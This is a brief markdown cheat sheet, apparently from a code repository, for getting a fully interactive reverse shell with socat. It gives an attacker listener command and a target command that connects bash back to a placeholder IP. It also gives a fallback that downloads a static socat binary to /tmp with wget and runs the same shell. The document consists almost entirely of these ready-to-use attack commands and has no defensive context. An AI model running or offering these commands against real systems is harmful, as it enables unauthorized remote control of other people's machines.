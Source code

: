# SoCat
***

## Attacker Mahine
```
socat file:`tty`,raw,echo=0 tcp-listen:7777
```

## Target Machine
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:7777
```

## Static SoCat Binary
If you don't have socat installed, and target has access to Internet, Then You can obtain standalone binaries that are available for download.
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat;
chmod +x /tmp/socat;
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:7777
```
